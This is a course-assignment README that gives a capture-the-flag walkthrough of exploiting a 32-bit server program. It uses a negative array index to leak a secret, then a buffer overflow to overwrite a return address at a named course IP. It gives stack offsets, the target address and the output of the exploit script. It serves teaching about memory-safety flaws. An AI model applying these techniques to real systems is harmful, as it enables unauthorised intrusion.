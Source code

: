 # Buffer Overflow Attack in Simulation

This project will introduce you to control-flow hijacking vulnerabilities in application software, including buffer overflows.
* Be able to identify and avoid buffer overflow vulnerabilities in native code.
* Understand the severity of buffer overflows and the necessity of standard defenses.
* Gain familiarity with machine architecture and assembly language.

> **NOTCIE:** This repository is the assignment in NCTU course "Network Security 2018". If you are taking this course, please do not duplicate from this repository. All rights reserved.

---
## Description

This project will introduce you to control-flow hijacking vulnerabilities in application software, including buffer overflows. We have provided source code, binary executable, and the assembly code. Try to find vulnerability in these files and exploit it to get the secret flag. There are two flags: `flag1` & `flag2`. If you get `flag1`, you will score 100, `flag2` is just the bonus flag. Have fun!

---
## Solutions

1. Before starting, we should try to use the serve and observe vulnerabilities
    ```
    # Connect to the server 140.113.194.66:8787
    $ nc 140.113.194.66 8787
    ----------------------
            NS
    ----------------------
    1. View info
    2. Edit info
    3. Exit
    ----------------------
    Your choice:
    ```
    * In the program `proj3.c`, the main function will call function `func`.
        * In the function `func`, the variable `ret_addr` will store the return address of its function. This could be a key point to attack this program.
        * In the function `func`, we can see there is a switch-case a while loop and the third of case is going to compare `ret_addr` with variables `magic1` and `magic2` to decide which function to return.
    * Observe with the program `proj3.asm`.
        * The variable `ret_addr` in the `proj3.c` is store at `ebp-0x88` (line 688).
        * Above the declaration of `ret_addr` in the `proj3.c`, there is a variable `secret` with struct type `SEC`, which size is 32 bytes due to the operation system is 32-bits in the memory stack.
        * To explain the above mentioned, the struct of `SEC` include an array `info` with 32 elements which is 32 Bytes. After converting to hexadecimal-based, the size will become `0x20` which is mapped to `ebp-0x64` (line 702).
        * After the array info in the struct `SEC`, there is a 4 bytes unsigned long variable called `secret` which is a random number. The only way to change the content of `secret` is in the while loop which is in the function func.
    * In the program `proj3.c`, the function `edit_note` with a pointer `s`  as parameter which type `STU` is a struct includes variable `name` (16 bytes), `note` (16 bytes), `stuid` (16 bytes), and `age` (4 bytes). The total sizes are 44 bytes.
        * In the program `proj3.asm`, we can observe that the memory stack pushes 88 bytes for two persons `s` started from `ebp-0x60`.
2. Start to attack by using buffer overflow
    * By using buffer overflow to attack the server, we need to find out the input place that can let us input some payload to make the returned address be wrong (e.g., we want to get the content of the variable `magic1`, so that we need to return to `magic1`’s address).
    * In the program `proj3.c`, the function `menu` is the place to input some payload.
        * After connecting to the server, we can choose `2` to enter the mode of edit info. Then, the server will ask to enter the `secret` and there exists a severe problem.
            ```
            # Connect to the server 140.113.194.66:8787
            $ nc 140.113.194.66 8787
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit
            ----------------------
            Your choice: 2
            Please input secret first:
            ```
        * The problem is that the value of integer in C can be positive or negative value. By entering a negative value, we can get the content outside the array’s index.
        * The more important thing is that the `secret` is stored behind the array `s[0]`. So that we can get the content of `secret` by entering `-1` as id in the mode of view info.
            ```
            # Connect to the server 140.113.194.66:8787
            $ nc 140.113.194.66 8787
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit 
            ----------------------
            Your choice: 1
            Please input id: -1
            Name: 1

            Note:
            Age: 2928863094
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit
            ----------------------
            Your choice:
            ```
        * The value shows after age is the `secret`’s value (`2928863094`) because the address of `secret` is `ebp-0x60`. which is the top 4 bytes before `s[0]` from above 44 bytes. Notice that the `secret`’s value is a random number.
3. Enter into the edited mode
    * After entering into the edited mode, we can enter the `secret`’s value (`2928863094`) and choose one user arbitrarily.

        ```
        # Connect to the server 140.113.194.66:8787
        $ nc 140.113.194.66 8787
        ----------------------
                NS
        ----------------------
        1. View info
        2. Edit info
        3. Exit
        ----------------------
        Your choice: 1
        Please input id: -1
        Name: 1

        Note:
        Age: 2928863094
        ----------------------
                NS
        ----------------------
        1. View info
        2. Edit info
        3. Exit
        ----------------------
        Your choice: 2
        Please input secret first: 2928863094
        Please input id: 1
        Input new note length:
        ```

    * In the program `proj3.c`, we found that we still cannot get the returned address we want if we only enter a positive integer less than 16 (line 124). Therefore, we enter `-1` because `-1` is a largest number in 2-based complement system so that we can trace back to the top of address in memory stack.
    * After entering `-1`, we are at the address of `note` in the struct `STU`. In that there is a variable name (16 bytes) before note, we can get the address of `note` from `s[0]` be `ebp-0x50`. Thus, we need to push 84 bytes ($5 \times 16 + 4 = 84$) to get the returned address.
4. Get the `flag1`
    * Finally, we can find that `magic1` will cover the original address at `080489e0` so that we can get the `flag1` after choose `3` to exit. Notice that the address need to be written in format of little endian.
    ![](https://i.imgur.com/PDDjfHZ.png)

---
## File Description

* `proj3.c` - The program of server on `140.113.194.66:8787`
* `proj3.asm` - The assembly program of `proj3.c`
* `proj3.py` - The program using buffer overflow to attack
* `flag1.txt` - The content of `flag1`

---
## Execution

1. Execute the `main.py`
    ```bash
    # Make sure your current directory is in "src/"
    $ python proj3.py
    ```
    * If succeed, you will see the following result
        ```bash
        [+] Opening connection to 140.113.194.66 on port 8787: Done
        2928863094
        FLAG{G00D_J0b!}
        [*] Closed connection to 140.113.194.66 port 8787
        ```
2. Show the true plaintext
    ```bash
    # Make sure your current directory is in "out/"
    $ cat flag1.txt
    FLAG{G00D_J0b!}
    ```

---
## Contributor

> **NOTICE:** You can follow the contributing process [CONTRIBUTING.md](CONTRIBUTING.md) to join me. I am very welcome any issue!

* [David Lu](https://github.com/yungshenglu)

---
## License

> **NOTCIE:** This repository is the assignment in NCTU course "Network Security 2018". If you are taking this course, please do not duplicate from this repository. All rights reserved.

[GNU GENERAL PUBLIC LICENSE Version 3](LICENSE)

